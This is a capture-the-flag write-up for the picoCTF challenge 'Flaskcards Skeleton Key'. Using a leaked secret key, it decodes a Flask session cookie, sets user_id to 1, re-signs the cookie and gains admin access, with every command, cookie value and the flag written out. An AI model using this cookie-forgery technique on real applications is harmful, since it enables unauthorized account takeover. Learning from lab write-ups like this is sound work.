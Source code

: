 # Flaskcards Skeleton Key - Web

> Nice! You found out they were sending the Secret_key: 385c16dd09098b011d0086f9e218a0a2. Now, can you find a way to log in as admin?

This page is the same as the last challenge Flaskcards but now we have to login as admin. If I intercept the request to /admin, we see our user has a session cookie that contains the value:

```.eJwlj0tqAzEQBe-itRdSt1rd8mWG_okYQwIz9irk7hak9q949VuOdeb1Ve6v8523cjyi3MvC4CmAA5QqklCOmsRDUYmGs6U1BpsNR53VyGu34FzmQgTGS4cYdeQaEI15NjAdEISunXoPJRZSTRyRhjKEoQk7L5e6Kbfi17mO188zv_efbOC-mFwmhKQDixNDInDTreW25jbh3r2vPP8jqPx9AAZePd0.DpA5UQ.ALSxhNUvHq8TDSk0gxcmee3A56E```

With the secret_key that we got in the problem description, I directly thought of this as a Flask cookie because the name of the title and that we have to modify it to get logged in as admin. Then I google about how to decode flask cookies and I find this [tool](https://github.com/noraj/flask-session-cookie-manager).

To decode the cookie with the secret key, I run:

```python2 session_cookie_manager.py decode -c ".eJwlj0tqAzEQBe-itRdSt1rd8mWG_okYQwIz9irk7hak9q949VuOdeb1Ve6v8523cjyi3MvC4CmAA5QqklCOmsRDUYmGs6U1BpsNR53VyGu34FzmQgTGS4cYdeQaEI15NjAdEISunXoPJRZSTRyRhjKEoQk7L5e6Kbfi17mO188zv_efbOC-mFwmhKQDixNDInDTreW25jbh3r2vPP8jqPx9AAZePd0.DpA5UQ.ALSxhNUvHq8TDSk0gxcmee3A56E" -s "385c16dd09098b011d0086f9e218a0a2"```

This gives us the cookie:

```{u'csrf_token': u'e12ccf75c892d8ec278c572e3271a2d571f96de3', u'_fresh': True, u'user_id': u'5', u'_id': u'f3d7982362a503585e60e576a3a556c7beb172b9136090b5c04bd7efbc8552b7fa68b54370d2d177912ba62d53ca4544da5785aae36deb386872187c7fc80000'}```

Now we need to modify it in some way so we get the admin cookie and first thing I tried was to change user_id to 1. Therefore we run the same tool to encode the new cookie now:

```python2 session_cookie_manager.py encode -s "385c16dd09098b011d0086f9e218a0a2" -t "{u'csrf_token': u'e12ccf75c892d8ec278c572e3271a2d571f96de3', u'_fresh': True, u'user_id': u'1', u'_id': u'f3d7982362a503585e60e576a3a556c7beb172b9136090b5c04bd7efbc8552b7fa68b54370d2d177912ba62d53ca4544da5785aae36deb386872187c7fc80000'}"```

This gives us the following encoded cookie:

```.eJwlj0FqQzEMBe_idRaWZFlyLvORZJmGQAv_J6vSu8fQ2b_hzW851pnXV7m_znfeyvGY5V4WTRmK1NG4Eitnr8nSjYy5h3g6CPoA6nVU56jNp-TyUGZ0WdbVuZHUiRNEBqBbx8kU1ri1aSzKZkl9ppN2FQSVkBVaN-VW4jrX8fp55vf-k4ARSzh04NQMFA0WTEIB21qBNbaJ9u595fkfAeXvAwZSPdk.DpA9OQ.5l1RizweQvHgB2wM4YgXbavp40U```

This looks like the same format as the one we started with which is great. Then I change my cookie to that one and get logged in admin. Then the flag is: picoCTF{1_id_to_rule_them_all_d77c1ed6} 
